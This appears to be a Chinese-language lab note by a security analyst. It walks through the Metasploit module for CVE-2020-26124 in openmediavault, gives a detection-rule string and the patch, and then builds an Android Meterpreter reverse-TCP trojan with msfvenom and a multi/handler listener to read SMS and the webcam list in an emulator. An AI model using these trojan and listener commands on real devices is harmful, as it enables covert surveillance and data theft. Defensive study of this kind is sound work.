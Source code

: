 ## metasploit了解

更新至2020/11/23含有4125个exploits 1125个auxiliary 352个post 592个payloads 45个encoders 10 nops:10、 evasion:7

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)

### CVE-2020-26124

造成漏洞原因：

4.1.36之前的openmediavault和5.5.12之前的5.x允许通过rpc.php的sortfield POST参数进行经过身份验证的PHP代码注入攻击，因为config / databasebackend.inc中未使用json_encode_safe。成功利用漏洞后，可以在根操作系统上以root用户身份执行任意命令。

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)

1.     show options &set

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image006.jpg)

2.     分析openmediacault_rpc_rce.rb文件

大概流程：1.check a.login()  post请求rpc.php文件

                 b.get_target() post请求version信息

                 b.execute_command() post请求数据中携带.exec(命令)

          2.exploit a.execute_cmdstager

3.使用，抓包分析，书写规则

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image008.jpg)

执行成功。

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image010.jpg)

规则中可以检测：

"sortfield":"'.exec(\"

4.查看补丁信息

添加了json_encode_safe()函数

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image012.jpg)

### 3.1 metasploit_shellcode

### 3.2利用metasploit生成安卓木马

1. 生成木马

msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.159.224 lport=55555 R > zky.apk

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image016.jpg)

使用逍遥模拟器打开

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image018.jpg)

注意安装逍遥模拟器需要打开虚拟机虚拟化vt设置

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image020.jpg)

打开metasploit监听端口，运行MainActivity

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image022.jpg)

发送一个真正的apk到安卓模拟器，然后成功启动一个会话，利用这个会话获取基本信息以及短信等信息

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image024.jpg)

使用jadx-gui分析zky.apk文件，可以看到该应用具有一些敏感权限

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image026.jpg)

抓取流量分析：

发送的apk携带链接信息

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image028.jpg)

```
use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set lhost 192.168.159.224

set lport 55555

exploit

webcam_list
```

调试过程中涉及的脚本，之后如果遇到可以进行参考

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image030.jpg)

